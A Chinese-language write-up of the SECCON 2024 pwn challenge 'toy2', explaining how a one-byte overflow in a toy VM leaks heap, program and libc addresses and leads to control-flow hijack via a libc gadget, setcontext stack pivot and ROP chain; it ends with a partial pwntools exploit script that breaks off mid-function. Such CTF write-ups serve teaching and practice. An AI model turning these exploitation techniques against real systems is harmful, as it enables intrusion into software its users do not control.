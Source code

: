 ```c
  } _regs;
}
```
所以我们可以溢出 data 一个字节，覆盖到 data_ptr 的低位    
### 思路
#### leak heap
覆盖 data_ptr 为 0xf8, 这样可以溢出读，把 data_ptr 的堆地址写到 buffer 里面    

#### leak proc
覆盖 data_ptr 为 0xa8，读出 func_table 的地址，和 proc 基地址有固定偏移     

#### leak libc
本步我没有想出来，于是看了 [mmm 战队 writeup](https://github.com/mmm-team/public-writeups/tree/main/seccon2024/pwn_toy2) 其实也很直观，借助 op 7 throw 了 runtime error，从而在堆上分配了一个 C++ 的 object，里面有和 libc 固定偏移的指针     

#### 重入 main
main 函数中有 `(*(void (__fastcall **)(char *))(*(_QWORD *)vm + 8LL))(vm);` 我们覆盖 func_table 指向堆内存，在该地址 + 8 偏移的地方写 main 的地址，which 可以由我们 leak 出来原先 func_table 地址得到，然后就可以构造下一个虚拟机完成接下来的操作

#### libc leak
像上一步 payload 一样，我们先覆盖 data_ptr 最低位为高地址 0xf8，把堆地址写到 data 里面    
然后覆盖 data_ptr 为前面的偏移，读出和 libc 固定偏移的地址，写入 data   

#### 控制流劫持
在 `(*(void (__fastcall **)(char *))(*(_QWORD *)vm + 8LL))(vm)` 中，因为我们 *vm 还是那个 fake_func_table 所以不太好直接控制内容，于是我们像一些 IO_FILE 题一样，考虑用 magic_gadget 和 setcontext 进行栈迁移     
但是我们遇到的问题是，libc2.39 没有那个 rdi 转 rdx 的 magic gadget，但是我们发现 rax 指向 *vm 即是 fake_func_table 地址 所以也是堆内存 ~   
所以可以利用下面的 gadget 控制 rdx     
```
.text:0000000000176F0E                 mov     rdx, [rax+38h]
.text:0000000000176F12                 mov     rdi, rax
.text:0000000000176F15                 call    qword ptr [rdx+20h]
```
然后我们就常规操作了，用 setcontext 进行栈迁移，然后在 fake stack 上布置 ROP chain 即可完工（感觉好像比 mmm team 的做法简单一点呢（逃）    

### exp
写的有点暴力，关键步骤都在注释里面 ~ 以及因为 libc 相关地址减法借位的问题，需要一个 1/8 的爆破
```py
from pwn import*
context(arch='amd64', os='linux', log_level='debug')
p=process("./toy2")

def get_instr(op,addr):
    return p16(op*0x1000+addr)
# try leak (自身一开始的 offset 为 0xb0)先覆盖为 \xf0 leak heap 把 heap_addr(正好在下一个 0x2b8) 写到 buffer 中 
# 覆盖低地址为 \xb0 leak proc 把 proc_vtable_addr 写到 buffer 的某个位置，然后 
# 然后 write proc 为 heap_addr + offset，partial write proc_vtable_addr 为 gadget_addr
# data 段放在 0xb8 + 0x200 (存 leak) 0xb8 + 0x150 (存辅助数据) 的位置
write_base = 0x200
data_base = 0x150
def load_and_write(load_addr_addr,write_addr_addr): # 需要保证偏移 0x50 的位置是0
    return get_instr(8,0x150)+get_instr(2,load_addr_addr)+get_instr(12,0)+get_instr(5,0)+get_instr(8,0x150)+get_instr(2,write_addr_addr)+get_instr(12,0)+get_instr(13,0)
def load_and_write_dir(load_addr,write_addr):
    return get_instr(9,load_addr)+get_instr(15,write_addr)

def load_sub_write_qword(load_addr,sub_val_addr,write_addr):
    return get_instr(9,load_addr)+get_instr(3,sub_val_addr)+get_instr(15,write_addr)+get_instr(9,load_addr+2)+get_instr(3,sub_val_addr+2)+get_instr(15,write_addr+2)+get_instr(9,load_addr+4)+get_instr(15,write_addr+4)
def load_add_write_qword_heap(load_addr,sub_val_addr,write_addr):
```